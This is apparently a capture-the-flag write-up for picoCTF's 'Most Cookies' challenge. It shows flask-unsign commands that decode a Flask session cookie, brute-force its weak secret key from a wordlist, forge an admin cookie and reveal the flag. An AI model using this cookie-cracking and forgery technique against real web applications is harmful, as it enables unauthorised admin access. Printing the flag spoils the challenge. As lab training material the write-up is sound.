

# Most Cookies

###### Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](server.py) http://mercury.picoctf.net:35697/



For every text we enter the response is always the same


So let's go to analyze the [server.py](server.py) file

The site use a flask cookie so we can extract the cookie and try to decode it

```console
$ flask-unsign  -d -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHToA.jU3NZ3vRLx_5wWDCeqmR26hpOgo 
{'very_auth': 'blank'}
```

Going into the [server.py](server.py) we see that if `very_auth == admin` we get the flag.txt page, so let's find the key using the [word list](cookie) inside [server.py](server.py), encode the new cookie and send it

```console
$ flask-unsign -u -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHToA.jU3NZ3vRLx_5wWDCeqmR26hpOgo --wordlist cookie 
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'chocolate chip'
$ flask-unsign --sign -c "{'very_auth': 'admin'}" --secret 'chocolate chip' --legacy 
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGHPfQ.kcmz-v9UdTrg9jWUK9ef0fVtTdc
```


#### **FLAG >>** `picoCTF{pwn_4ll_th3_cook1E5_22fe0842}`